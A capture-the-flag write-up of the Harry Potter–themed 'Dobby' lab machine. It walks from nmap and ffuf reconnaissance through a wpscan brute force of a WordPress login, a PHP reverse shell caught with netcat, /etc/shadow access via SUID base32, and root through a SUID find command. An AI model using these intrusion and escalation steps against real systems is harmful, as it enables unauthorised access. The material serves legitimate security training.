 # Dobby
## User flag

First thing as always nmap scan

```shell
nmap -p- -n --min-rate 5000 -sS -Pn -oN allports 192.168.1.39
PORT   STATE SERVICE
80/tcp open  http
```

If we do a more in depth scan to port 80

```shell
nmap -p80 -Pn -sCV -oN targeted 192.168.1.39
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

The http title is base64 encoded an it says "too easy no? Potter" so just a meaningless Harry Potter reference.The web is just an Apache default site (Although it contains some information I will talk about later) so let's fuzz for more.

Command line : `ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u http://192.168.1.39/FUZZ -recursion -recursion-depth 1
-of md -o ffuf:directories`
  Time: 2022-08-23T11:34:06&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | log | http://192.168.1.39/log |  | 625 | 200 | 45 | 3 | 4 |  |  |
  |  | http://192.168.1.39/ |  | 39970 | 200 | 10977 | 3502 | 409 | text/html |  |
  | server-status | http://192.168.1.39/server-status |  | 110248 | 403 | 277 | 20 | 10 | text/html; charset=iso-8859-1 |  |


If we go to log we get a password and a hint to go to DiagonAlley. The password seems base64 decoded and when you decode it you get "::ilovesocks" another Harry Potter reference in this case to Dobby, it's probably his password.

On DiagonAlley we have a wordpress site run by a user Draco the first post contains brainfuck encoded text that says "donn" and the second post is irrelevant. So the obvious thing to do here is to run wpscan however that didn't report any crucial information. I thought this maybe similar to the [mr.robot machine](mr.robot.md) I already did thus I enumerated users with wpscan an started a bruteforce attack also with wpscan (I tried hydra but it wasn't working However is a better tool for this kinds of attacks)

```shell
wpscan --url http://192.168.1.39/DiagonAlley --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
...
[+] draco
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.1.39/DiagonAlley/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] Draco
 | Found By: Rss Generator (Passive Detection)
```

User draco is valid so let's use rockyou.txt to bruteforce the login

```shell
wpscan --url http://192.168.1.39/DiagonAlley -P ~/wordlist/rockyou.txt -U draco
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
...
[!] Valid Combinations Found:
 | Username: draco, Password: slytherin
```

Right we have the password but, do you remember what I said about the apache page earlier? well it turns out this is not the only way of getting the password since if you look at the html code of the apache page there is a hint that says "Draco's password is his house ;)" Therefore that is another way to log in. You could also do a bit of "social engineering" and create your own Harry Potter wordlist. That's why I marked the machine as very easy because you can solve it in many different ways (not only this step).


Well once logged as an administrator I used the same trick ad in the [mr.robot machine](./mr.robot.md) that is changing the theme of a page to a php reverse shell. In this case I changed the main page to the php reverse shell that can be found [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

Once in I improved the tty and logged as dobby

```shell
 nc -lvp 7777
Connection from 192.168.1.39:51810
Linux HogWarts 5.8.0-26-generic #27-Ubuntu SMP Wed Oct 21 22:29:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:00:02 up  7:39,  0 users,  load average: 0.00, 0.08, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@HogWarts:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@HogWarts:/$ stty rows 30 columns 132
www-data@HogWarts:/$ su dobby
Password:
dobby@HogWarts:/$
```

It is important to note that dobby's password is not "::ilikesocks" but "ilikesocks". If you also managed to get the reverse shell but for some reason you don't know the dobby password there is another method. If we search for SUID binaries we have base32 that basically let's us read every file on the system. So just read the dobby entrance on the /etc/shadow file and crack the hash. I honestly thought that this was the way to root and got the flag this way but the vulnhub page clearly said "dobby needs to be root to help harry potter, dobby needs to be a free elf".

So after trying some more things out I though that maybe I was a victim of "tunnel vision" and missed something on other step. I looked at the SUID binaries and found the solution

```shell
dobby@HogWarts:/$ find / -perm -4000 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/16292/usr/lib/snapd/snap-confine
/snap/core18/1932/bin/mount
/snap/core18/1932/bin/ping
/snap/core18/1932/bin/su
/snap/core18/1932/bin/umount
/snap/core18/1932/usr/bin/chfn
/snap/core18/1932/usr/bin/chsh
/snap/core18/1932/usr/bin/gpasswd
/snap/core18/1932/usr/bin/newgrp
/snap/core18/1932/usr/bin/passwd
/snap/core18/1932/usr/bin/sudo
/snap/core18/1932/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1932/usr/lib/openssh/ssh-keysign
/snap/core18/2538/bin/mount
/snap/core18/2538/bin/ping
/snap/core18/2538/bin/su
/snap/core18/2538/bin/umount
/snap/core18/2538/usr/bin/chfn
/snap/core18/2538/usr/bin/chsh
/snap/core18/2538/usr/bin/gpasswd
/snap/core18/2538/usr/bin/newgrp
/snap/core18/2538/usr/bin/passwd
/snap/core18/2538/usr/bin/sudo
/snap/core18/2538/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2538/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/p11_child
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/sbin/pppd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/base32
/usr/bin/gpasswd
/usr/bin/find
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
```

Do you see another dangerous binary on the list? well it's find that gives us root access just by simply executing this command


```shell
dobby@HogWarts:/$ find . -exec /bin/sh -p \; -quit
# whoami
root
# base32 /root/proof.txt | base32 -d
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


```

I had to use base32 to read since cat was not installed. Overall a great machine with many paths to the final solution!
